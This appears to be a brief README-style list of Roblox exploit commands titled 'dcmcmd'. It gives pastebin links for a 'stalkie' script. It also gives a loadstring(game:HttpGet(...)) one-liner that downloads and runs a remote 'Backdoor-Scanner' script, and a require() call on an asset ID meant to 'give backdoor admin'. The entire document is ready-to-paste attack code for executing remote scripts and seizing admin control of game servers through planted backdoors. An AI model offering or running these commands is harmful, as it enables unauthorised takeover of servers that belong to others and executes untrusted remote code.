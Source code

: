 # dcmcmd
stalkie https://pastebin.com/szpe6X47
              https://pastebin.com/deKynmgN
lalol loadstring(game:HttpGet('https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/script'))()
give backdoor admin require(7192763922).load("Alexis19flacoo")
